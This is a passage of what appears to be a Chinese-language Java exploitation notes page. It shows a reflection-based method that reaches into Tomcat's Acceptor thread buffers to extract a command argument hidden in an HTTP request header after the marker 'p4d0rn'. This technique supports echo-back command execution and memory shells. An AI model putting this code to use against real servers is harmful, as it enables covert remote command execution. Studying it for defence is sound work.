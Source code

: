 可以把命令参数藏在HTTP请求头中

```java
public String getRequest() {
    try {
        Thread[] threads = (Thread[]) ((Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads"));

        for (Thread thread : threads) {
            if (thread != null) {
                String threadName = thread.getName();
                if (threadName.contains("Acceptor")) {
                    Object target = getField(thread, "target");
                    if (target instanceof Runnable) {
                        try {
                            Object[] objects = (Object[]) getField(getField(getField(target, "endpoint"), "nioChannels"), "stack");
                            ByteBuffer heapByteBuffer = (ByteBuffer) getField(getField(objects[0], "appReadBufHandler"), "byteBuffer");
                            String a = new String(heapByteBuffer.array(), "UTF-8");

                            if (a.indexOf("p4d0rn") > -1) {
                                System.out.println(a.indexOf("p4d0rn"));
                                System.out.println(a.indexOf("\r", a.indexOf("p4d0rn")) - 1);
                                String b = a.substring(a.indexOf("p4d0rn") + "p4d0rn".length() + 1, a.indexOf("\r", a.indexOf("p4d0rn")) - 1);

                                return b;
                            }

                        } catch (Exception var11) {
                            System.out.println(var11);
                            continue;
                        }


                    }
                }
            }
        }
    } catch (Exception ignored) {
    }
    return new String();
}
```

`org.apache.catalina.connector.Response`继承了`HttpServletResponse`类

![image-20230204145828153](../.gitbook/assets/image-20230204145828153.png)

